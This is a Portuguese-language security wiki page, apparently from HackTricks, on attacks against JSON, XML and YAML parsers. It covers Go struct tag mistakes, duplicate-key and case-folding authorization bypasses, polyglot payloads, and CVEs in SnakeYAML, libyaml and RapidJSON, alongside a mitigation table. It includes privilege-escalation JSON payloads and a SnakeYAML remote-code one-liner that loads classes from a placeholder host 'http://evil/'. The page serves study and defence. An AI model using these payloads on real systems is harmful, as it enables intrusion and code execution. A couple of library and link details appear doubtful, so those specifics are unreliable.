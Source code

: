 # JSON, XML & Yaml Hacking & Issues

{{#include ../banners/hacktricks-training.md}}

## Go JSON Decoder

Os seguintes problemas foram detectados no JSON do Go, embora possam estar presentes em outras linguagens também. Esses problemas foram publicados em [**this blog post**](https://blog.trailofbits.com/2025/06/17/unexpected-security-footguns-in-gos-parsers/).

Os parsers JSON, XML e YAML do Go têm uma longa trilha de inconsistências e padrões inseguros que podem ser abusados para **bypass authentication**, **escalate privileges**, ou **exfiltrate sensitive data**.


### (Un)Marshaling Unexpected Data

O objetivo é explorar structs que permitem a um atacante ler/escrever campos sensíveis (por exemplo, `IsAdmin`, `Password`).

- Struct de exemplo:
```go
type User struct {
Username string `json:"username,omitempty"`
Password string `json:"password,omitempty"`
IsAdmin  bool   `json:"-"`
}
```
- Vulnerabilidades Comuns

1. **Missing tag** (no tag = field is still parsed by default):
```go
type User struct {
Username string
}
```
Payload:
```json
{"Username": "admin"}
```
2. **Uso incorreto de `-`**:
```go
type User struct {
IsAdmin bool `json:"-,omitempty"` // ❌ wrong
}
```
Payload:
```json
{"-": true}
```
✔️ Maneira correta de bloquear um campo para que não seja (un)marshaled:
```go
type User struct {
IsAdmin bool `json:"-"`
}
```
### Diferenças entre parsers

O objetivo é contornar a autorização explorando como diferentes parsers interpretam o mesmo payload de forma diferente, como em:
- CVE-2017-12635: Apache CouchDB bypass via chaves duplicadas
- 2022: Zoom 0-click RCE via inconsistência do parser XML
- GitLab 2025 SAML bypass via peculiaridades do XML


**1. Campos duplicados:**
O `encoding/json` do Go considera o **último** campo.
```go
json.Unmarshal([]byte(`{"action":"UserAction", "action":"AdminAction"}`), &req)
fmt.Println(req.Action) // AdminAction
```
Outros parsers (por exemplo, Java’s Jackson) podem escolher o **primeiro**.

**2. Insensibilidade a maiúsculas/minúsculas:**
Go é insensível a maiúsculas/minúsculas:
```go
json.Unmarshal([]byte(`{"AcTiOn":"AdminAction"}`), &req)
// matches `Action` field
```
Até truques com Unicode funcionam:
```go
json.Unmarshal([]byte(`{"aKtionſ": "bypass"}`), &req)
```
**3. Incompatibilidade entre serviços:**  
Imagine:  
- Proxy escrito em Go  
- Serviço AuthZ escrito em Python

Atacante envia:
```json
{
"action": "UserAction",
"AcTiOn": "AdminAction"
}
```
- Python vê `UserAction`, permite
- Go vê `AdminAction`, executa


### Confusão de Formato de Dados (Polyglots)

O objetivo é explorar sistemas que misturam formatos (JSON/XML/YAML) ou que falham abertamente em caso de erros de parser como:
- **CVE-2020-16250**: HashiCorp Vault analisou JSON com um parser XML depois que o STS retornou JSON em vez de XML.

O atacante controla:
- O cabeçalho `Accept: application/json`
- Controle parcial do corpo JSON

O parser XML do Go o analisou **de qualquer forma** e confiou na identidade injetada.

- Payload criado:
```json
{
"action": "Action_1",
"AcTiOn": "Action_2",
"ignored": "<?xml version=\"1.0\"?><Action>Action_3</Action>"
}
```
Resultado:
- **Go JSON** parser: `Action_2` (insensível a maiúsculas/minúsculas + o último prevalece)
- **YAML** parser: `Action_1` (sensível a maiúsculas/minúsculas)
- **XML** parser: analisa "Action_3" dentro da string

---

## Vulnerabilidades notáveis de parser (2023-2025)

> As seguintes falhas exploráveis publicamente mostram que o parsing inseguro é um problema entre várias linguagens — não apenas um problema do Go.

### SnakeYAML Deserialization RCE (CVE-2022-1471)

* Afeta: `org.yaml:snakeyaml` < **2.0** (usado por Spring-Boot, Jenkins, etc.).
* Causa raiz: `new Constructor()` desserializa **classes Java arbitrárias**, permitindo cadeias de gadgets que culminam em execução remota de código.
* One-liner PoC (abrirá a calculadora na máquina vulnerável):
```yaml
!!javax.script.ScriptEngineManager [ !!java.net.URLClassLoader [[ !!java.net.URL ["http://evil/"] ] ] ]
```
* Correção / Mitigação:
1. **Atualize para ≥2.0** (usa `SafeLoader` por padrão).
2. Em versões antigas, use explicitamente `new Yaml(new SafeConstructor())`.

### libyaml Double-Free (CVE-2024-35325)

* Afeta: `libyaml` ≤0.2.5 (biblioteca C utilizada por muitas language bindings).
* Problema: Chamar `yaml_event_delete()` duas vezes causa um double-free que atacantes podem transformar em DoS ou, em alguns cenários, heap exploitation.
* Status: Upstream rejeitou como “API misuse”, mas distribuições Linux lançaram **0.2.6** com patch que libera o ponteiro para NULL defensivamente.

### RapidJSON Integer (Under|Over)-flow (CVE-2024-38517 / CVE-2024-39684)

* Afeta: Tencent **RapidJSON** antes do commit `8269bc2` (<1.1.0-patch-22).
* Falha: Em `GenericReader::ParseNumber()` aritmética sem verificação permite que atacantes criem literais numéricos enormes que fazem wrap-around e corrompem o heap — possibilitando, em última instância, privilege-escalation quando o grafo de objetos resultante é usado para decisões de autorização.

---

### 🔐 Mitigações (Atualizadas)

| Risco                               | Correção / Recomendação                                   |
|-------------------------------------|------------------------------------------------------------|
| Campos desconhecidos (JSON)         | `decoder.DisallowUnknownFields()`                          |
| Campos duplicados (JSON)            | ❌ Sem correção na stdlib — valide com [`jsoncheck`](https://github.com/dvsekhvalnov/johnny-five) |
| Correspondência case-insensitive (Go) | ❌ Sem correção — valide tags de struct + pré-canonicalize a entrada |
| XML garbage data / XXE              | Use um parser reforçado (`encoding/xml` + `DisallowDTD`)   |
| Chaves desconhecidas (YAML)         | `yaml.KnownFields(true)`                                   |
| **Unsafe YAML deserialization**     | Use SafeConstructor / atualize para SnakeYAML ≥2.0         |
| libyaml ≤0.2.5 double-free          | Atualize para **0.2.6** ou para a release distro-patched  |
| RapidJSON <patched commit           | Compile contra a versão mais recente do RapidJSON (≥July 2024) |

## Veja também

{{#ref}}
mass-assignment-cwe-915.md
{{#endref}}

## Referências

- Baeldung – “Resolving CVE-2022-1471 With SnakeYAML 2.0”
- Ubuntu Security Tracker – CVE-2024-35325 (libyaml)

{{#include ../banners/hacktricks-training.md}}
